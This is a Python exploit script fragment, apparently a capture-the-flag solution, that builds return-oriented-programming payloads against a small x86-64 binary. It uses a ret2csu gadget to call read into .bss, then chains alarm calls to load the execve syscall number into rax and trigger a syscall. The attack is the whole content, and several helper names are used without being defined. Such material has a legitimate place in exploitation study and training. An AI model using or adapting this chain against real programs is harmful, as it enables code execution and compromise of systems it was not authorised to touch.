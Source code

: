 ```python
#syscall = 0x400537 # the function not just the call

read = pack(elf.plt["read"])
alarm = pack(elf.plt["alarm"])

pop_rbp = pack(0x4004b8)
ret = pack(0x400416)

pop_rbx_rbp_r12_r13_r14_r15 = pack(0x4005ca)

mov_rdx_r15_mov_rsi_r14_mov_edi_r13d_call_r12_plus_4rbx = pack(0x4005b0)
# weird gadget which is not really a gadget

main_address = pack(0x400541)
troll = pack(0xdeadbeefdeadbabe)
ptr_to_init = 0x400e38
# bss = 0x601038
bss = 0x601028
def build_payload():
    #the challange is populating the rdx register, we will do this using ret to csu
    payload = [padding,
                pop_rbx_rbp_r12_r13_r14_r15, pack(0x0), pack(0x1), pack(ptr_to_init), # affect next instruction to be executed -> rbx=0, rbp=1, r12=ptr_to_init
                pack(0), pack(bss), pack(0x8),  # r13d goes into edi, bss -> where to write, 0x8 -> how much to read
                mov_rdx_r15_mov_rsi_r14_mov_edi_r13d_call_r12_plus_4rbx,
                troll, troll, troll, troll, troll, troll, troll,
                # it isn't a rop gadget so we have to play with the exectuion a little
                pop_rdi, pack(0x0), pack(elf.symbols['read']), main_address
                # read from stdin (0), call read, then call main to exploit again
    ]
    payload = b''.join(payload)
    return payload

def build_payload2():
    payload = [padding,
                pop_rbx_rbp_r12_r13_r14_r15, pack(0x0), pack(0x1), pack(ptr_to_init), # affect next instruction to be executed -> rbx=0, rbp=1, r12=ptr_to_init
                pack(0x0), pack(bss+8), pack(bss+8),  # r13d goes into edi, bss -> where to write, 0xf -> how much to read
                mov_rdx_r15_mov_rsi_r14_mov_edi_r13d_call_r12_plus_4rbx,
                troll, troll, troll, troll, troll, troll, troll
    ]
    payload = b''.join(payload)

    #payload += pop_rdi
    #payload += pack(0x0) # works with or without these 2 instructions
    #                           because rdi will become 0 from the above instructions
    payload += alarm
    # cancel current alarm
    payload += pop_rdi
    payload += pack(0x3b) # execve syscall
    payload += alarm
    payload += pop_rdi
    payload += pack(0x0)
    payload += alarm
    # this puts 0x3b into rax by returning it from alarm
    
    payload += pop_rdi
    payload += pack(bss)
    payload += pack(syscall_func)

    return payload
```